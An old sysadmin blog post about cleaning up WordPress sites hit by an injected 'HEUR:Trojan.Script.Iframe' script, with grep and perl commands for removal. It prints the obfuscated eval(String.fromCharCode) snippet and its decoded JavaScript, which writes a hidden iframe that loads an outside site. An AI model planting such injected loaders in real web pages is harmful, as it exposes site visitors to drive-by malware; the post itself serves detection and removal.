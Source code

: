 ```yaml
---
published: true
author: gerold-mercadero
date: '2009-03-22 12:25:15'
layout: post
slug: heurtrojanscriptiframe
status: publish
title: HEUR:Trojan.Script.Iframe
wordpress_id: '432'
categories:
- News
- Security
tags:
- virus
---
```


One of my friend asked for help about virus appearing on his sites (mostly WordPress sites).  I checked it out and my Kaspersky Internet Security blocked the pages from loading, so i downloaded the files manually and scanned html with Kaspersky to determine affected files.


![virus2](http://linuxsysadminblog.com/images/2009/03/virus2-220x300.gif)



I noticed that the affected files were PHP and HTML only and if you compare the code of the original WordPress files with the infected one you will see the difference.  Below are sample added codes/virus:



HTML files: `<script type="text/javascript">eval(String.fromCharCode(118,97...50,55))</script>`
PHP files:  `<?php echo '<script type="text/javascript">eval(String.fromCharCode(118,97...50,55))</script>'; ?>`

**What it does**
I'm not a virus expert and I'm curios on what this portion of code does so i looked at it.  In our case the resulting text add this portion of code to the html or php files:

`var fggge3="si";
var w345="pl";
var re6="ank.";
var rr="com";
var a="if";
var s="tt";
document.write('<'+a+'rame src="h'+s+'p://'+fggge3+''+w345+''+re6+''+rr+'/'+'qqp/'+''+''+'" style="d'+'isplay:n'+'one">');
var t=00001217
`

and you can see it tries to load an iframe:

`<iframe src=http://siplank.com/qqp/ style=display:none>`

**Virus Removal**
You can remove the virus by just deleting the code (sample above) on the affected files.  If you need to cleanup hundred of infected files (in our case more than 800) you can do the following:

- Get the list of infected files.  You can use grep to search for them
`grep -Z -R "eval(String.fromCharCode(118,97,114" /path/to/site/* >> affected_file_list.txt`
- Delete the codes by using perl/sed commands.  Repeat the commands for every files.
`perl -pi -e 's/\<script type="text\/javascript"\>eval\(String.fromCharCode\(118,97,114...51,51\)\)\<\/script\>//'  /path/to/affected/file.htm
perl -pi -e "s/\<\?php echo ''; \?\>\<\?php echo ''; \?\>//"  /path/to/affected/file.php`

Or create a bash/shell script to do the cleanup at once:
`
while read line
do
perl -pi -e 's/\<script type="text\/javascript"\>eval\(String.fromCharCode\(118,97,114...51,51\)\)\<\/script\>//'  $line
perl -pi -e "s/\<\?php echo ''; \?\>\<\?php echo ''; \?\>//"   $line
done < affected_file_list.txt
`

That's all.

I don't know how the attacker gained access to the files and inserted the codes because the file permissions are ok - maybe they gain ftp access.
